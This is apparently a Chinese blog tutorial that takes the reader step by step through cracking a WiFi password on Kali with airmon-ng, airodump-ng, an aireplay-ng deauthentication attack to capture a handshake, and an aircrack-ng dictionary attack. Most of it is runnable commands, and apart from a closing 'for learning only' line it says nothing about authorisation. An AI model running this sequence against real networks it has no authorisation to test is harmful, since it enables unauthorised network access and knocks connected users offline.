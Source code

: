 ```yaml
---
title: "使用Kali爆破WIFI密码"
description: "使用Kali爆破WIFI密码"
keywords: "wifi"

date: 2023-06-16T16:41:30+08:00
lastmod: 2023-06-16T16:41:30+08:00

categories:
  - Linux
tags:
  - Linux
  - 工具使用
---
```


# 使用kali爆破WiFi密码

## 首先准备一个免驱的kali无线网卡

## 过程

#### 插上无线网卡，让虚拟机的kali连接上无线网卡

![image-20210717201315738](https://picture-czy.oss-cn-beijing.aliyuncs.com/homeWinDir/20210717201322.png#crop=0&crop=0&crop=1&crop=1&id=p7iCa&originHeight=331&originWidth=1057&originalType=binary&ratio=1&rotation=0&showTitle=true&status=done&style=none&title=image-20210717201315738 "image-20210717201315738")

#### 打开终端，使用ifconfig查看网卡信息

![image-20210717202637731](https://picture-czy.oss-cn-beijing.aliyuncs.com/homeWinDir/20210717202637.png#crop=0&crop=0&crop=1&crop=1&id=Oku4l&originHeight=513&originWidth=812&originalType=binary&ratio=1&rotation=0&showTitle=true&status=done&style=none&title=image-20210717202637731 "image-20210717202637731")

可以看到`wlan0`就是无线网卡

> **注意：** 以下命令都在`root`模式下执行


#### 为无线网卡开启监听模式

```bash
airmon-ng start wlan0
```

![image-20210717203432962](https://picture-czy.oss-cn-beijing.aliyuncs.com/homeWinDir/20210717203433.png#crop=0&crop=0&crop=1&crop=1&id=CjztX&originHeight=515&originWidth=811&originalType=binary&ratio=1&rotation=0&showTitle=true&status=done&style=none&title=image-20210717203432962 "image-20210717203432962")

若遇到提示，则运行提示里的命令即可

再次使用`ifconfig`命令查看是否被监听

![image-20210717203658914](https://picture-czy.oss-cn-beijing.aliyuncs.com/homeWinDir/20210717203658.png#crop=0&crop=0&crop=1&crop=1&id=egd9W&originHeight=507&originWidth=816&originalType=binary&ratio=1&rotation=0&showTitle=true&status=done&style=none&title=image-20210717203658914 "image-20210717203658914")

若后面出现`mon`则说明已经被监听

#### 扫描附近的WiFi

```bash
airodump-ng wlan0mon
```

![image-20210717203955962](https://picture-czy.oss-cn-beijing.aliyuncs.com/homeWinDir/20210717203956.png#crop=0&crop=0&crop=1&crop=1&id=ojUHO&originHeight=506&originWidth=815&originalType=binary&ratio=1&rotation=0&showTitle=true&status=done&style=none&title=image-20210717203955962 "image-20210717203955962")

```bash
BSSID  表示MAC地址
PWR    表示信号 -------排名越靠前的信号越好
CH     表示信号道
ESSID  表示WiFi名称
```

大概稳定之后可以使用`Ctrl + C`结束扫描

#### 抓包 

```bash
airodump-ng --bssid 02:4B:F3:00:7E:D7 -c 6 --write /home/kali/demo wlan0mon
--bssid 表示目标WiFi的MAC地址
-c 表示目标WiFi所处的信号道
--wirte 表示抓到的包所在的文件地址（/home/kali/  为文件目录）
```

![image-20210717205325099](https://picture-czy.oss-cn-beijing.aliyuncs.com/homeWinDir/20210717205325.png#crop=0&crop=0&crop=1&crop=1&id=ae3s8&originHeight=512&originWidth=822&originalType=binary&ratio=1&rotation=0&showTitle=true&status=done&style=none&title=image-20210717205325099 "image-20210717205325099")

**若红框中并没有内容则说明还没抓到数据包**，这时需要有人连接上WiFi或者**让连接的设备下线，让设备再次自动连接WiFi，这时就可以抓取到握手包**

我们选择后者的操作，重新打开新的终端，使用命令

```bash
sudo aireplay-ng -0 3 -a 02:4B:F3:00:7E:D7 wlan0mon
-0   表示发送攻击的数据包个数
-a   表示目标WiFi的MAC地址
```

![image-20210717210733305](https://picture-czy.oss-cn-beijing.aliyuncs.com/homeWinDir/20210717210733.png#crop=0&crop=0&crop=1&crop=1&id=h0mNs&originHeight=202&originWidth=810&originalType=binary&ratio=1&rotation=0&showTitle=true&status=done&style=none&title=image-20210717210733305 "image-20210717210733305")

这个时候可以发现上一个终端所标的红框处已经有了内容，说明抓包成功

![image-20210717210905193](https://picture-czy.oss-cn-beijing.aliyuncs.com/homeWinDir/20210717210905.png#crop=0&crop=0&crop=1&crop=1&id=PAT2V&originHeight=511&originWidth=811&originalType=binary&ratio=1&rotation=0&showTitle=true&status=done&style=none&title=image-20210717210905193 "image-20210717210905193")

来到保存握手包的目录，可以发现握手包已经放在了此目录下

![image-20210717211315378](https://picture-czy.oss-cn-beijing.aliyuncs.com/homeWinDir/20210717211315.png#crop=0&crop=0&crop=1&crop=1&id=i0AxM&originHeight=278&originWidth=812&originalType=binary&ratio=1&rotation=0&showTitle=true&status=done&style=none&title=image-20210717211315378 "image-20210717211315378")

#### 使用密码字典进行爆破

密码字典可以使用网上找的，也可以使用kali自带的

来到密码字典所在的目录，执行下面命令

```bash
aircrack-ng -w FastPwds.txt /home/kali/demo-01.cap
-w   表示密码字典
/home/kali/demo-01.cap  则是握手包
```

![image-20210717211755386](https://picture-czy.oss-cn-beijing.aliyuncs.com/homeWinDir/20210717211755.png#crop=0&crop=0&crop=1&crop=1&id=haTrS&originHeight=513&originWidth=814&originalType=binary&ratio=1&rotation=0&showTitle=true&status=done&style=none&title=image-20210717211755386 "image-20210717211755386")

啪的一下，很快啊，就爆破完了(前提密码很简单)，红框中的内容就是密码

**注意：本方法只是用来学习和交流的**
